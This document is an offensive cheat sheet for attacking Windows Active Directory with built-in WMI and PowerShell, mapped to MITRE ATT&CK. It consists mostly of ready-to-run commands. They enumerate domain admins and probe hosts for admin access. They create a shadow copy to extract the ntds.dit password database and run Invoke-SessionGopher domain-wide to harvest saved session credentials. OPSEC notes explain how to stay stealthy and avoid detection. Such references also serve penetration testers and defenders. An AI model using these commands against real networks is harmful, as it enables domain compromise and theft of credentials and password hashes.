

Using native Windows Management Instrumentation (WMI) and Common Information Model (CIM) to enumerate Active Directory environments. This approach is highly stealthy as it relies on built-in Windows binaries (`powershell.exe`, `wmic.exe`) and standard protocols (RPC/DCOM), avoiding the need to drop third-party tools like PowerView or the ActiveDirectory module to disk.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1018 - Remote System Discovery](https://attack.mitre.org/techniques/T1018/)
* [T1087 - Account Discovery](https://attack.mitre.org/techniques/T1087/)
* [T1069 - Permission Groups Discovery](https://attack.mitre.org/techniques/T1069/)
</Callout>




---

## 1. Listing WMI Namespaces & Classes

Use these commands to list the classes available in the `root/directory/ldap` namespace, which mirrors the AD schema.

```powershell
gwmi -NameSpace root/directory/ldap -list
get-cimClass -NameSpace root/directory/ldap
```

---

## 2. Domain & Computer Enumeration

Extract information about the current computer, the domain, and all joined machines.

<Tabs>
  <Tab title="Local & Domain Info">
    ```powershell
    # Info about the current computer
    gwmi -Class win32_computersystem

    # Info about the domain
    gwmi -Namespace root/directory/ldap -Class ds_domain
    gwmi -Namespace root/directory/ldap -Class ds_domain | select ds_name
    ```
  </Tab>
  <Tab title="Computer Enumeration">
    ```powershell
    # All computers in the domain
    gwmi -Namespace root/directory/ldap -Class ds_Computer
    gwmi -Namespace root/directory/ldap -Class ds_Computer | select ds_cn

    # Specific computer in domain
    gwmi -Namespace root/directory/ldap -Class ds_Computer | ? {$_.ds_cn -eq "mal-analysis"}

    # Specific computer, filtering out null/system properties (Clean Output)
    (gwmi -Namespace root/directory/ldap -Class ds_Computer | ? {$_.ds_cn -eq "mal-analysis"}).properties | % {If($_.Value -AND $_.Name -notmatch "__"){@{ $($_.Name) = $($_.Value)}}}
    ```
  </Tab>
  <Tab title="Finding Domain Controllers">
    *User Account Control (UAC) value `532480` indicates a Domain Controller.*
    ```powershell
    # Name of DCs in domain
    gwmi -Namespace root/directory/ldap -Class ds_Computer | ? { $_.DS_userAccountControl -eq 532480}

    # Name of DCs, filtering out null values
    (gwmi -Namespace root/directory/ldap -Class ds_Computer | ? { $_.DS_userAccountControl -eq 532480}).properties | % {If($_.Value -AND $_.Name -notmatch "__"){@{ $($_.Name) = $($_.Value)}}}
    ```
  </Tab>
</Tabs>

---

## 3. User & Group Enumeration

Extracting user and group information using standard WMI classes.

<Tabs>
  <Tab title="Users">
    ```powershell
    gwmi -Class win32_UserAccount -list
    gwmi -Class win32_UserAccount
    gwmi -Class win32_UserAccount -Filter "Domain = 'adolf'"
    ```
  </Tab>
  <Tab title="Groups">
    ```powershell
    gwmi -Class Win32_Group -list
    gwmi -Class Win32_Group
    gwmi -Class Win32_GroupInDomain

    # List groups in a specific domain
    gwmi -Class Win32_GroupInDomain | % {[wmi]$_.PartComponent}
    gwmi -Class Win32_GroupInDomain | ? {$_.GroupComponent -match "adolf"} | % {[wmi]$_.PartComponent}
    ```
  </Tab>
  <Tab title="Group Memberships">
    ```powershell
    # Users in groups
    gwmi -Class Win32_GroupUser

    # Users with Domain Admin privileges
    gwmi -Class Win32_GroupUser | ? {$_.GroupComponent -match "Domain Admins"} | % {[wmi]$_.PartComponent}

    # Users with Domain Admin privileges in a specific domain (e.g., Adolf)
    gwmi -Class Win32_GroupUser | ? {$_.GroupComponent -match "Adolf" -AND $_.GroupComponent -match "Domain Admins"} | % {[wmi]$_.PartComponent}

    # Find which groups the current user belongs to
    gwmi -Class Win32_GroupUser | ? {$_.PartComponent -match "currentuser"} | % {[wmi]$_.GroupComponent}
    ```
  </Tab>
</Tabs>

---

## 4. Custom Script: Enumerate Local Admin Access

This script fetches all computer names from AD via WMI, then iterates through them using `win32_ComputerSystem`. If the current user has local admin rights on the target machine, the WMI query will succeed and return information.

```powershell
function enumcomputer {
    $computers = gwmi -Namespace root/directory/ldap -Class ds_Computer | select -expandproperty ds_cn
    foreach($com in $computers) {
        (gwmi -Class win32_ComputerSystem -computername $com)
    }
}

# Execute the function
enumcomputer
```

---

## Useful WMI Classes

<AccordionGroup>
  <Accordion title="Quick Reference Table">
    | Class | Description |
    | :--- | :--- |
    | `Win32_IP4RouteTable` | Network routing table information |
    | `Win32_UserAccount` | Local and domain user accounts |
    | `Win32_Group` | Local and domain groups |
    | `Win32_ShadowCopy` | Volume Shadow Copy Service (VSS) management |
    | `StdRegProv` | Windows Registry operations |
  </Accordion>
</AccordionGroup>

---

## Local Enumeration

Enumerate local system configurations without relying on native CMD tools like `ipconfig` or `net user`.

<Tabs>
  <Tab title="Network Routing Table">
    ```powershell
    gwmi -Class win32_ip4routetable -list
    gwmi -Class win32_ip4routetable
    ```
  </Tab>
  <Tab title="Users & Groups">
    ```powershell
    gwmi -Class win32_UserAccount -list
    gwmi -Class win32_UserAccount
    gwmi -Class Win32_Group -list
    gwmi -Class Win32_Group
    ```
  </Tab>
</Tabs>

---

## Volume Shadow Copy (VSS) via WMI

<Callout type="danger" title="Bypassing File Locks (Extracting NTDS.dit)">
Critical system files like `ntds.dit` are locked by the OS. Attackers use WMI to create a Volume Shadow Copy, which allows them to read the locked files from a snapshot.
</Callout>

<Steps>
  <Step title="Step 1: Create the Shadow Copy">
    ```powershell
    # Explore the Create method
    (gwmi -Class win32_ShadowCopy -List).methods
    (gwmi -Class win32_ShadowCopy -List).Create

    # Create a shadow copy of the C: drive
    (gwmi -Class win32_ShadowCopy -List).Create("C:\","venom")
    ```
  </Step>
  <Step title="Step 2: Link the Shadow Copy to a Directory">
    *Once created, you must map the shadow copy device object to a local folder to access its contents.*
    ```powershell
    # View the created shadow copies
    gwmi -Class win32_ShadowCopy -List
    gwmi -Class win32_ShadowCopy

    # Extract the DeviceObject path (e.g., \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1)
    $link = (gwmi -Class win32_shadowCopy).DeviceObject + "\"

    # Create a symbolic link to the shadow copy
    cmd /c mklink /d C:\shadow "$link"
    ```
    *You can now browse `C:\shadow\` and copy locked files like `C:\shadow\Windows\NTDS\ntds.dit`.*
  </Step>
</Steps>

---

## Nishang: Invoke-SessionGopher

<Callout type="warning" title="Extracting Saved Credentials">
`Invoke-SessionGopher` is a PowerShell script from the Nishang framework. It thoroughly enumerates saved session credentials (PuTTY, WinSCP, FileZilla, RDP, etc.) stored in the registry and file system of local and remote machines.
**Resource:** [samratashok/nishang](https://github.com/samratashok/nishang)
</Callout>

<Tabs>
  <Tab title="Local Enumeration">
    ```powershell
    ipmo nishang\nishang-master\Gather\Invoke-SessionGopher.ps1
    Invoke-SessionGopher -Verbose
    ```
  </Tab>
  <Tab title="Remote Enumeration (Single Machine)">
    ```powershell
    Invoke-SessionGopher -Verbose -ComputerName x.x.x.x -Credential domain\user
    ```
  </Tab>
  <Tab title="Domain-Wide Enumeration">
    *Iterates through all machines in the domain to find saved credentials.*
    ```powershell
    # Include Domain Controllers
    Invoke-SessionGopher -Verbose -AllDomain
    Invoke-SessionGopher -Verbose -AllDomain -Credential domain\user

    # Exclude Domain Controllers (Stealthier / Less noisy)
    Invoke-SessionGopher -Verbose -AllDomain -ExcludeDC
    Invoke-SessionGopher -Verbose -AllDomain -ExcludeDC -Credential domain\user
    ```
  </Tab>
</Tabs>

---

## OPSEC & Network Considerations

<CardGroup cols={2}>
  <Card title="WMI VSS & SessionGopher" icon="alert-triangle">
    * **WMI VSS:** Creating shadow copies generates specific Event Logs (Event ID 7036 for VSS service start, and Event ID 8224 for VSS shadow copy creation).
    * **SessionGopher:** Running `Invoke-SessionGopher -AllDomain` is extremely noisy. It will touch every single machine in the domain over WMI/RPC, which will easily trigger network anomaly detections. Use `-ExcludeDC` and target specific high-value machines if stealth is required.
  </Card>
  <Card title="Network & Protocol" icon="network">
    * **Protocol:** WMI uses DCOM (RPC over TCP). This means it requires access to port 135 (Endpoint Mapper) and a range of dynamic high ports (49152-65535) on the target machine. Ensure these are not blocked by firewalls.
    * **Stealth:** Because WMI queries are executed inside the `WmiPrvSE.exe` host process and do not require loading external DLLs or modules, they are often overlooked by basic Application Whitelisting (AWL) solutions. However, advanced EDRs monitor WMI activity (Event ID 4662 and 4624).
  </Card>
</CardGroup>
